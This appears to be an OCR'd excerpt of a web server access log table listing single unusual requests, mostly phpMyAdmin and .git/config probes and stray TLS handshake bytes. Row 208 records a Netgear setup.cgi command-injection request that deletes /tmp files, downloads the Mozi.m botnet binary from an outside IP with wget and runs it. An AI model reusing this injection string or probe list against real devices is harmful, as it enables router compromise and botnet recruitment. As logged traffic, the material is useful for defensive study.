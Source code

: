 | 200 |                     1 | GET /sql/phpmyadmin4/index.php?lang=en HTTP/1.1                                                                                                                                                                                                                                                                                                                                                     |
| 201 |                     1 | GET /phpMyAdmin-latest/index.php?lang=en HTTP/1.1                                                                                                                                                                                                                                                                                                                                                   |
| 202 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03e\xD0\x8B\xFB\xF5\xA3\xE1\xBE\x93\xF1\x94=c\xBF`\x93\xE7\x1A\xE3\x9D\xA6\xE0V\xC9)q\xC0\xAB\xD3\x16\xBDk\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                    |
| 203 |                     1 | GET /db/phpMyAdmin3/index.php?lang=en HTTP/1.1                                                                                                                                                                                                                                                                                                                                                      |
| 204 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03q\x9C\x14\xB4\x0E\x993u\xE4\xBEd\xCF\x11\x0F\xF7%\x86\x17\xD9\xBC7P\xB8Rl\x96\xF8\x09E\x00\xDD|\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                             |
| 205 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\x02^\xF1\x08\xC0\xC4\xA5s\xED\x96w \xFFQ\xBE\xDF\xEA\xF9^\xD9\xE2%\xBC\xAC\x90d<\xF9M\xB7i\x1D\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                             |
| 206 |                     1 | GET /server/.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                    |
| 207 |                     1 | \x16\x03\x01\x00\xEE\x01\x00\x00\xEA\x03\x03\xCF?\xB7\x86\xC2\xD5y\xF7(\xD1\x8C\x8EG\x86\x9A\xEA\xE7\xB6\xCCs\xE9A\x97L\xFA\x1B\x8A\x1B\xD1\xE0\xB2\xFE XHd\x85<<\xAA\x1F:\xC2\x19\xCB\xBD\x02g\x9E\x91\x16;\x934dDb\xDC8\x92)!\xDC~V\x00&\xC0+\xC0/\xC0,\xC00\xCC\xA9\xCC\xA8\xC0\x09\xC0\x13\xC0                                                                                                  |
| 208 |                     1 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://117.213.186.65:60985/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                                                                                                                       |
| 209 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03%\xA1\x0F\xCA\x9D\xE0\xAD2'\xB7;\x9Co\x96\xD3077%\xED\xCE\xE4\x03\xD0,\xC9\xB2\x5C\x1F\xE2\xFCv\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                             |
| 210 |                     1 | \x16\x03\x01\x00{\x01\x00\x00w\x03\x03\xA8,\xD1c\xDDA\xC3\x9C1q\x17\x1Br\x1A\xE9\xB4Wh-_\x95\x1E%\x9E\x94 \x90\x1E\xB0H5\xB5\x00\x00\x1A\xC0/\xC0+\xC0\x11\xC0\x07\xC0\x13\xC0\x09\xC0\x14\xC0                                                                                                                                                                                                      |
| 211 |                     1 | GET /db/myadmin/index.php?lang=en HTTP/1.1                                                                                                                                                                                                                                                                                                                                                          |
